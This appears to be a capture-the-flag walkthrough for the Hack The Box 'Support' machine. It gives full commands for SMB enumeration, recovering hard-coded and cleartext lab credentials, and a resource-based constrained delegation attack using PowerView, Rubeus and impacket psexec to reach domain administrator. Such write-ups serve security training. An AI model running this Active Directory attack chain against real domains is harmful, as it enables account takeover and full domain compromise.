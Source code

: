 # [Support](https://app.hackthebox.com/machines/Support)

```bash
nmap -p- --min-rate 10000 10.10.11.174 -Pn    
```

![Alt text](img/image.png)

After finding open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p53,135,139,445,464 10.10.11.174 -Pn 
```

![Alt text](img/image-2.png)


I can also see `UDP` port, let's look at this.

![Alt text](img/image-1.png)


After running `crackmapexec` against our target, I see that `support.htb` is domain name, let's add this into `/etc/hosts` file for resolving purposes.
```bash
crackmapexec smb 10.10.11.174
```

![Alt text](img/image-3.png)


We also know that this is `Domain Controller`.

I looked at shares by adding `--shares` option.

![Alt text](img/image-4.png)


Let's access into `supports-tools` share via `smbclient`.
```bash
smbclient //10.10.11.174/support-tools -N 
```

![Alt text](img/image-5.png)


I got `UserInfo.exe` from and look at `dnspy` tool to see logic of this executable.

I get method of encryption.

![Alt text](img/image-6.png)


I also get encrypted password on source code of this application as `hard-coded`.

![Alt text](img/image-7.png)

I found decryption way of this and got password already.

![Alt text](img/image-8.png)

That's credentials of `ldap` user.

ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz


Let's verify this credentials via `crackmapexec`.
```bash
crackmapexec smb 10.10.11.174 -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

![Alt text](img/image-9.png)


As I have Domain credentials, I can dump all related info about `LDAP`, that's why I will use `ldapdomaindump` tool.

```bash
ldapdomaindump -u support.htb\\ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' support.htb -o ldap
```

![Alt text](img/image-10.png)


By reading `domain_users.json` file, I see that one `info` from `support` user that has clear-text credentials.


![Alt text](img/image-11.png)


support: Ironside47pleasure40Watchful

Let's check this credentials via `crackmapexec`.
```bash
crackmapexec smb 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'
```

![Alt text](img/image-12.png)


Let's login into machine via `evil-winrm` by grabbed credentials.
```bash
evil-winrm -i 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'
```

user.txt

![Alt text](img/image-13.png)

Let's run `bloodhound-python` via this credentials to get all information about domain.
```bash
bloodhound-python -d support.htb -u support -p Ironside47pleasure40Watchful -gc support.htb -c all -ns 10.10.11.174
```

![Alt text](img/image-14.png)


Let's run our `bloodhound` to enumerate this data.

![Alt text](img/image-15.png)


While I run `net user support` , I see that this user belongs to `Shared Account Operators` group.

![Alt text](img/image-16.png)


From `bloodhound` enumeration, I see that this `Shared Account Operators` group has `GenericAll` privilege to `Domain Controller`.

![Alt text](img/image-17.png)


As a result, we know that we have `full rights` to `dc.support.htb` object.

```bash
New-MachineAccount -MachineAccount dr4ksFakeComputer -Password $(ConvertTo-SecureString 'dr4ksdr4ks123' -AsPlainText -Force)
```

```bash
$fakesid = Get-DomainComputer dr4ksFakeComputer | select -expand objectsid
$fakesid
```

```bash
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Verification is below one.

```bash
$RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
$Descriptor.DiscretionaryAcl
```


Final result:

![Alt text](img/image-18.png)


Let's upload `Rubeus.exe` to get Kerberos ticket.

1.First, we need to get `rc4_hmac` hash via below command.
```bash
.\Rubeus.exe hash /password:dr4ksdr4ks123 /user:dr4ksFakeComputer /domain:support.htb
```

![Alt text](img/image-19.png)

2.Let's do `S4u` for `Rubeus.exe`.
```bash
.\Rubeus.exe s4u /user:dr4ksFakeComputer$ /rc4:818B23D113D0CE761B84B0DFAFA38DAE /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```

![Alt text](img/image-20.png)


Let's save this on our local machine.

![Alt text](img/image-21.png)

Let's convert this into `.ccache` format from `.kirbi`.

```bash
python3 /usr/share/doc/python3-impacket/examples/ticketConverter.py ticket.kirbi ticket.ccache
```

![Alt text](img/image-22.png)


Let's use this ticket for authentication to system as `Administrator` user.
```bash
KRB5CCNAME=ticket.ccache python3 /usr/share/doc/python3-impacket/examples/psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

root.txt

![Alt text](img/image-23.png)